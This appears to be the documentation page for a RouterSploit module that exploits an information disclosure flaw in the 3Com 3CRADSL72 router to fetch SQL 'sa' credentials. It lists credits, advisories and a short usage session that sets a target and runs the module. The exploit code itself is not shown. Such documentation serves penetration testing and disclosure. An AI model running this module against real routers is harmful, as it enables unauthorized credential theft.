 # 3Com 3CRADSL72 Info Disclosure

## Description
Exploits 3Com 3CRADSL72 information disclosure vulnerability that allows to fetch credentials for SQL sa account

## Authors
* Karb0nOxyde <karb0noxyde[at]gmail.com> # vulnerability discovery
* Ivan Casado Ruiz <casadoi[at]yahoo.co.uk> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://lostmon.blogspot.com/2005/04/3com-adsl-11g-cradsl72-router.html](http://lostmon.blogspot.com/2005/04/3com-adsl-11g-cradsl72-router.html)
* [http://www.securityfocus.com/bid/11408/exploit](http://www.securityfocus.com/bid/11408/exploit)

## Vulnerable devices
* 3Com 3CRADSL72

## Usage
```
rsf > use exploits/3com/3cradsl72_info_disclosure
rsf (3Com 3CRADSL72 Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (3Com 3CRADSL72 Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com 3CRADSL72 Info Disclosure) > run
[*] Running module...
```
